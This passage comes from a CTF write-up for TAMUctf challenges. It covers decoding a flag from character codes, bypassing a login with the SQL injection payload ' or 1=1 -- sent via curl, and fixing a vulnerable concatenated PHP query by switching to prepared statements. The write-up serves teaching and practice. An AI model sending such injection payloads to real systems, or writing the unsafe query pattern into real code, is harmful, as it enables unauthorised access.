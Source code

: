 In short, this program prints the contents of `Fqaa` if the input matches
`XidT`. Let's just print it out.

```python
data = [102, 108, 97, 103, 123, 100, 101, 99, 111, 109, 112, 105, 108, 101, 125]
print(''.join(map(chr, data)))
```

- flag: `flag{decompile}`

## Not Another SQLi Challenge
**Category**: Web

> http://web1.tamuctf.com
> 
> Difficulty: easy

The page has a minimal login page. Since this challenge is rated "easy", let's
try something simple.

```
$ curl http://web1.tamuctf.com/web/login.php -d "username=' or 1=1 --&password="
<html>gigem{f4rm3r5_f4rm3r5_w3'r3_4ll_r16h7}!</html>
```

- flag: `gigem{f4rm3r5_f4rm3r5_w3'r3_4ll_r16h7}`

## SQL
**Category**: Secure Coding

> https://gitlab.tamuctf.com/root/sql

The repo contains a [login.php](sql/login.php) file, where the vulnerability
lies in how the user and password fields are sent to the MySQL server.

```php
$sql = "SELECT * FROM login WHERE User='$user' AND Password='$pass'";
```

After looking around the PHP documentation, we learn that the proper way to fix
this is by using prepared statements instead.

```diff
diff --git a/login.php b/login.php
index 9bbeb25..766cb92 100644
--- a/login.php
+++ b/login.php
@@ -12,8 +12,10 @@
         die("Connection failed: " . $conn->connect_error);
     $user = $_POST['username'];
     $pass = $_POST['password'];
-    $sql = "SELECT * FROM login WHERE User='$user' AND Password='$pass'";
-    if ($result = $conn->query($sql))
+    $sql = $conn->prepare("SELECT * FROM login WHERE User=? AND Password=?");
+    $sql->bind_param("ss", $user, $pass);
+    $sql->execute();
+    if ($result = $sql->get_result())
     {
       if ($result->num_rows >= 1)
       {
```

